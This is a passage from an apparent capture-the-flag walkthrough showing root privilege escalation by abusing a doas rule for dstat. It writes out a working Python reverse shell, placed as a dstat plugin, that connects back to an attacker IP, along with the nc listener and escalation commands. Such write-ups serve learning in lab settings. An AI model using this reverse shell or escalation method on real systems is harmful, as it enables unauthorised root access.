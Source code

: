 - 2> /dev/null: Redirects standard error (stderr) output to /dev/null, discarding any error messages that may occur during the search. This is done to suppress any error messages that may be generated when searching in directories where the user does not have sufficient permissions.

- /dev/null: A special device file in Linux that discards anything written to it, effectively sending it to oblivion. In this command, it is used to discard any error messages that may be generated during the search.

After executing the command, we find that we have the ability to see a file named doas.conf. Let's use "cat /usr/local/etc/doas.conf". We get "permit nopass player as root cmd /usr/bin/dstat". Let's check the dstat command by running "dstat --help". We can see the files we have permissions using:

```
find / -type d -name dstat -group player 2>/dev/null
```

This command searches for directories with the name "dstat" and owned by the group "player" in the entire file system starting from the root directory. The output of this command is "/usr/local/share/dstat". So let's go to this directory. We can create any file with format "dstat_<name>" and execute it through:
```
doas -u root /usr/bin/dstat --<name>
```

So, let's create the file dstat_exploit.py.

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.31",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

This is a reverse shell script in python. Make sure to change the ip and port. Now, listen to the port with your pc using "nc -lvpn 4444". Execute the following command to establish connection as root user:

```
doas -u root /usr/bin/dstat --exploit
```

We get the following log:

```
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
```

Congrats! We connected as root user and we can display the root flag under the "/root" directory.
